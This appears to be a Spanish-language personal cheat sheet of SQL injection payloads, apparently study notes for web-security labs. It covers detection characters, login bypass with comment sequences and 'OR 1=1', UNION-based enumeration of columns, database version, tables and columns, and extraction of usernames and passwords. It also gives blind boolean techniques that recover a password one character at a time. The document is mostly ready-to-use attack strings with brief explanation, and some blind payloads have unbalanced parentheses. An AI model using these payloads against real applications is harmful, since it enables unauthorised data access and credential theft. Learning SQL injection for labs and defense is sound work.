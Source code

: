 # SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | *simbolo comun para testear si existe SQLi o no.*

" | *simbolo comun para testear si existe SQLi o no.*

' -- | *simbolo comun para testear si existe SQLi o no.*

## COMENTARIOS "bypass"

-- | *dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | *dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

## LOGIC BYPASS 

' OR 1=1-- | *sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | *cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.*

## UNION ATTACK

**PRE-REQ:** *numero de columnas y data type de cada columna*

#### COMO SABER EL NUMERO DE COLUMNAS ?

**METODO_1:** ' ORDER BY 1-- \
**METODO_2:** ' UNION SELECT NULL--

#### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> *se tiene que hacer iterativo cambiando los campos para saber que tipo son.*

> Oracle

' UNION SELECT 'a','a' from DUAL--

#### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

**Microsoft** >> SELECT @@version \
**MySQL** >> SELECT @@version \
**Oracle** >> SELECT banner FROM v$version | SELECT version FROM v$instance \
**PostgreSQL** >> SELECT version() 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Microsoft](https://learn.microsoft.com/en-us/sql/relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16) | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html) | [PostgreSQL](https://www.postgresql.org/docs/current/infoschema-tables.html)] 

'UNION SELECT [columns] FROM information_schema.tables \
'UNION SELECT [columns] FROM information_schema.columns \
'UNION SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Oracle](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)] 

'UNION SELECT [columns] FROM all_tables \
'UNION SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

#### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT [columns] FROM [table_name]-- \
' UNION SELECT username, password FROM users--

#### MOSTRAR MULTIPLES VALORES EN UNA MISMA COLUMNA [CONCATENACION]

    NOTA: Importante definir la columna que sea formato string.

~: Separador

**ORACLE: ||** \
ex: 'string'||'string' \
' UNION SELECT username || '~' || password FROM users-- 

**MICROSOFT: +** \
ex: 'string'+'string' 

**POSTGRESQL: ||** \
ex: 'string'||'string' 

**MySQL: [ ] "space"** \
ex: 'string' 'string'

## BLIND SQL INJECTION

    NOTA: importante analizar el comportamiento del site. 

Validar la existencia de una tabla por medio de una consulta booleana, limitando el resultado para no romper la consulta.

' AND SELECT '[value]' FROM [table_name] LIMIT 1)='[value]'--
' AND SELECT 'admin' FROM users LIMIT 1)='[admin]'--

Una vez con el nombre de la tabla, se puede consultar fields especificos cambiando el query y agregando la funcion WHERE:

' AND SELECT [field] FROM [table_name] WHERE [field]='[value]')='[value]'--
' AND SELECT username FROM users WHERE username='admin')='admin'--

_ENUMERAR EL TAMANO DE UN CAMPO ?

' AND SELECT [field_name] FROM [table_name] WHERE [field_name]='[value]' AND LENGTH(field_name)>1)='value'--
' AND SELECT username FROM users WHERE username='admin' AND LENGTH(password)>1)='admin'--

    NOTA: Es necesario iterar el numero de posicion hasta no tener expected responses, de esa manera se obtiene la cantidad de caracteres.

_COMO ENUMERAR EL CONTENIDO "STRING" DE UN CAMPO ?

--> Funcion SUBSTRING

El primer numero, por ejemplo, "4", es la posicion a iterar. el segundo numero es a una sola posicion.

**Oracle:**	SUBSTR('string', 4, 1) \
**Microsoft:**	SUBSTRING('string', 4, 1) \
**PostgreSQL:**	SUBSTRING('string', 4, 1) \
**MySQL:**	SUBSTRING('string', 4, 1)

' AND SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--

    NOTA: Por ejemplo para iterar una posible contrasena se debe cambiar la posicion y el valor final a igual, 
    en este caso el numero "1" y la letra "a".




